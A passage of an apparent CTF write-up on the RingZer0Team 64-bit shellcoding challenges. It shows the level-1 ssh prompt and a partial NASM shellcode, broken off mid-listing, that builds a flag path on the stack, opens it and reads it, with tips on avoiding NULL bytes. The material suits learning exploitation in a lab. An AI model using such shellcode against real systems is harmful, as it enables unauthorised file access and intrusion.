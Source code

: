 ### Solved by barrebas

[RingZer0Team](http://ringzer0team.com) is hosting a long-term CTF. The shellcoding challenges presented a very nice set of challenges. It was really fun **and** I learned a ton about 64-bit shellcoding while solving them!

I have redacted all the flags, because that would spoil things a bit too much. I did, however, try to verify all the shellcodes that are presented here. Sometimes, filenames may not match or errors may have creeped into the scripts during clean-up. For this, my apologies ;)

Level 1
-------

Let's start easy. Upon connecting via `ssh`, the challenge presents us with the following:

```
$ ssh level1@shellcode.ringzer0team.com -p 7771
level1@shellcode.ringzer0team.com's password: 
Linux ld64deb1 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64
Last login: Sun Feb  1 19:36:20 2015 from 93.74.28.37

RingZer0 Team CTF Shellcoding Level 1
Submit your shellcode using hex representation "\xcc\xcd".
Type "end" to exit.

This level have no shellcode restriction.
You main goal is to read /flag/level1.flag

shellcode>
```

Although it says *no restriction*, there is one crucial restriction: NULL bytes are **not** allowed. This probably means that the shellcode is being copied to a buffer by `strcpy` or something similar. I found this out the hard way... Anyway, after realizing my mistake, I rebuilt my shellcode from the ground up, avoiding all NULL bytes. The shellcode is quite simple: it builds the filename on the stack, then opens that file, reads the contents onto the stack and finally writes off the contents to stdout. A very helpful link is this [x64 syscall table](http://blog.rchapman.org/post/36801038863/linux-system-call-table-for-x86-64) which lists all the syscalls and the arguments. 

To avoid NULL bytes, registers can be zeroed by using `xor`. To set a byte-sized value, the value can be `push`ed and then `pop`ped into a register. Often, registers still hold their original value after a syscall and thus can be re-used.

```
bits 64

_start:

mov dword [rsp], '/fla'     ; build filename on stack
mov dword [rsp+4], 'g/le'
mov dword [rsp+8], 'vel1'
mov dword [rsp+12], '.fla'
push 'g'
pop rcx
mov [rsp+16], ecx

lea rdi, [rsp]              ; rdi now points to filename '/flag/level1.flag'
xor rsi, rsi                ; rsi contains O_RDONLY, the mode with which we'll open the file
xor rax, rax
inc rax
inc rax                     ; syscall open = 2
syscall 

mov rbx, rax                ; filehandle of opened file

lea rsi, [rsp]              ; rsi is the buffer to which we'll read the file
mov rdi, rbx                ; rbx was the filehandle
```